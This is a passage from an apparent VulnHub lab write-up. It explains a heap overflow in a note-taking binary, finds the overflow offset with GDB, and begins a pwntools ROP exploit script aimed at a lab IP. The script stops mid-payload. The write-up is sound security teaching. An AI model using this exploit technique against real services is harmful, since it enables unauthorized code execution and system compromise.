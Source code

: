 - return psVar1;: This line returns the pointer psVar1, which points to the dynamically allocated structure

The heap overflow occurs when the program writes data beyond the boundaries of a dynamically allocated heap buffer, potentially overwriting important data or control structures. In the above decompiled code, the allocations made by malloc are based on fixed sizes (8 bytes for psVar1 and *psVar1 bytes for pvVar2). Which we could overflow by writing more data than the allocated memory can hold. writing more than 64 bytes of data unto the heap could overflow the allocated memory by malloc. Let's switch to GDB to see just how much of input do we need to give the programm to spawn a lovely Shell ;)

I took the binary and load it into GDB for easy analysis, I use gdbpeda's cool utility of generating patterns so that we could easily see which part of the memory our input corrupted to, this would really save us a lot of time 

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl2_gdb.png)

after the input is supplied to the program, and a new note is created then as expected the program crashes with malloc's failure of corrupted top size, we then use gdbpeda pattern offset to see how much of data we need to overflow unto the stack.


![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl2_off.png)

we see it's `72 bytes` any more of about `4 bytes` would pop into the `ebp` register which is our main goal 

knowing all this we use pwntools utility to write a script and a ropgadet to spawn a shell


```
#!/bin/python

from pwn import *
import struct

ellf = ELF('./level2')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

try:
    #try connecting remote
    ip = '192.168.17.129'
    port = 53121

    print("[+] Connecting to Target {0}".format(ip))
    proc = remote(ip,port)
except:
    #connect local if remote not up
    print("using local executable:")
    proc = ellf.process()

rop = ROP(ellf)

# Creating new notes
print(proc.recvuntil(b">").decode())
print("{*]Creating Note")
proc.sendline(b'new')
print(proc.recvuntil(b">").decode())
proc.sendline(b"new")
print(proc.recvuntil(b">").decode())


print("[*] Crafting payload")
# print(rop.find_gadget(['pop ebp','ret']))
# getting the pop_ebp gadget and free GOT entry
pop_ebp = hex(rop.ebp.address)
free_adr = hex(ellf.got['free'])
```